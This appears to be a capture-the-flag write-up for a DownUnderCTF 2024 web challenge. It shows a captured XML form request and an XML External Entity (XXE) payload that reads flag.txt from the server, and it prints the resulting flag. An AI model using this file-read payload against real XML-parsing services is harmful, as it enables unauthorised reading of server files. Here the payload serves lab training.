

# zoo feedback form
The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

## Data
* https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
* zoo-feedback-form.zip

## Solution
The website shows a feedback form:


A quick look into the request header, shows that XML is used to send this form:
```
POST / HTTP/2
Host: web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
Content-Length: 185
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>TEST</feedback>
            </root>
```
We can also verify that in the source code of the app.

We can try to abuse this with XML External Entity (XXE) to access the flag file. For that we can the following payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "flag.txt"> ]>
            <root>
                <feedback>&xxe;</feedback>
            </root>
```

As result we receive the flag:


The flag is `DUCTF{emU_say$_he!!0_h0!@_ci@0}`.
